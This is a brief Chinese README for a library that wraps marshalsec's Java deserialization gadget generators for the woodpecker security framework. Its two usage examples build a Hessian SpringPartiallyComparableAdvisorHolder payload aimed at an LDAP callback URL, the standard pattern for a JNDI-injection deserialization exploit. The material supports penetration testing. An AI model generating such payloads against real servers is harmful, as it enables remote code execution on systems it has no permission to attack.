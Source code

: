 # marshalsec-for-woodpecker

## 0x01 简介
`marshalsec-for-woodpecker`是基于 [marshalsec](https://github.com/mbechler/marshalsec)开放第三方调用api ,为woodpecker框架定制开发的各类反序列化gadget集成库。

## 0x02 api调用


#### 2.1 public Object getObject(String gadgetName,String[] gadgetArgs)

返回gadget对象

```
new Hessian().apiRun("SpringPartiallyComparableAdvisorHolder",new String[]{"ldap://127.0.0.1:138/obj"})
```

#### 2.2 public byte[] apiRun(String gadgetName,String[] gadgetArgs)

返回gadget对象，序列化之后的数据

```
new Hessian().apiRun("SpringPartiallyComparableAdvisorHolder",new String[]{"ldap://127.0.0.1:138/obj"})
```